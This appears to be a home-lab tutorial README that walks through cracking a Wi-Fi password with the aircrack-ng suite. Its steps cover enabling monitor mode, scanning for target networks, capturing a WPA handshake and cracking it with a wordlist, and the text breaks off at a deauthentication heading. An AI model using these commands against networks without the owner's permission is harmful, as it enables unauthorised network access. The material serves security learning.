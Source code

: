 ### Wireless Hacking Process (Home Lab)

1. check connection wifi card

```bash
iwconfig
```
 - iwconfig is a Linux command used to configure a wireless network interface. In this context, it's used to check if the Wi-Fi card is connected and in what mode

![alt text](images/image-1.png)

2. Check if airmon-ng process exists and kill it if it does

```bash
airmon-ng check kill
```
- airmon-ng is a tool used to put the wireless interface into monitor mode. Before starting a new session, it's a good practice to ensure there are no existing airmon-ng processes running. 

3. Start airmon-ng in monitor mode on wlan0

```bash
airmon-ng start wlan0
```

![alt text](images/image-3.png)

- puts the wireless interface wlan0 into monitor mode, allowing it to capture all wireless frames, not just those intended for it. This is necessary for sniffing and attacking Wi-Fi networks.

1. check wlan0mon (monitor mode: activated)

```bash
iwconfig
```

- confirms that the interface is in monitor mode

![alt text](images/image-4.png)

5. Check for target networks to attack

```bash
airodump-ng wlan0
```

![alt text](images/image-5.png)

- monitor and capture packets on the wlan0mon interface. It displays a list of nearby wireless networks (targets), along with their BSSIDs (MAC addresses), channels, encryption types, and signal strengths.

6. Gain handshake for target network

```bash
airodump-ng -c <channel_router> --bssid <bssid_router> -w capture wlan0
```

![alt text](images/image-6.png)

- captures packets on the specified channel (<channel_router>) for the target network with the given BSSID (<bssid_router>). The -w capture option specifies the output file name (capture.cap in this case).

7. crack password pakai wodlist

```bash
aircrack-ng -w wordlist.txt -b <bssid_router> <file.cap>
```
#### Best Wordlist

![alt text](images/image-7.png)


- attempts to crack the password using the provided wordlist (wordlist.txt) and the target BSSID

### Deauthentication Attack

